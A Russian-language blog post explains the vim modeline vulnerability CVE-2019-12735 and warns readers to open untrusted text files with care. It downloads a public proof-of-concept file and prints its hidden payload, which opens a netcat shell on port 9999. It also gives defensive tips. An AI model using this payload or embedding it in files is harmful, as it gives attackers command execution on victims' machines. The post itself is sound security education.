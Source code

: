 ```yaml
---
layout: post
title:  "Открываем незнакомые файлы с осторожностью даже текстовым редактором!"
meta_description: "Демонстрация уязвимости в текстовом редакторе vim с объяснениями почему открывать незнакомые текстовые файлы опасно даже в текстовом редакторе"
date:   2019-10-22
tags: vim exploits vulnerability
categories: article
author: "soko1"
---
```


Многим известно, что запускать неизвестного происхождения файлы небезопасно, но сколько человек при этом открывает незнакомые текстовые файлы, например, в текстовом редакторе? Особенно если это Linux и какой-нибудь проверенным временем текстовый редактор vim/emacs! Что может случиться? 

## Краткое описание недавней уязвимости в vim

Не хочу вдаваться в технические подробности дырки, которую нашли в текстовом редакторе vim, об этом написано немало статей (уязвимости присвоен номер <a href="https://nvd.nist.gov/vuln/detail/CVE-2019-12735" target="_blank">CVE-2019-12735</a>), но хочу рассказать о том, какую опасность это несёт и почему надо быть предельно аккуратным даже с такими, казалось бы, базовыми инструментами.

Вектор атаки: вам присылают файлик, вы его открываете в vim, а тем временем у вас на компьютере выполняется код. Например, качается с удаленного сервера бекдор и устанавливается в систему. Причем вы даже не видите целиком содержимого файла, вся выполняемая конструкция замаскирована и не отображается. 

## Демонстрация экслоита

Рассмотрим один из экслоитов для vim. 

Скачаем сам эксплоит:

```
$ wget https://raw.githubusercontent.com/numirias/security/master/data/2019-06-04_ace-vim-neovim/shell.txt
```

А теперь попробуем его прочитать, например, утилитой cat:

```
$ cat shell.txt
Nothing here.
```

А вот что в файлике находится на самом деле:

```
$ cat -v shell.txt
[?7lSNothing here.:silent! w | call system('nohup nc 127.0.0.1 9999 -e /bin/sh &') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails('set\ fde=x\ \|\ source\!\ \%') fdl=0: [1G[KNothing here."[D 
```

То есть вы качаете незнакомый файлик, открываете его в уязвимом текстовом редакторе и у вас открывается шелл на 9999-порту и делай дальше с вашей машиной что хочешь :) 

## Выводы

Открытие незнакомых текстовых файлов даже в текстовых редакторах может быть опасным. 

Если вы не доверяете источнику, с которого скачен файл, лучше запустить его в изолированном окружении вроде виртуальной машины, или тестовой vps.

Как вариант — добавьте в ваш шелл (например, ~/.zshrc) следующий alias, чтобы хоть как-то обнаружить возможную маскировку шелл-кода в незнакомом файле. При условии что это не эксплоит к утилите cat, или терминалу :)

```
alias cv='cat -v'
```

Ну и конечно же не забывайте обновлять всё ПО и ОС на всех ваших девайсах.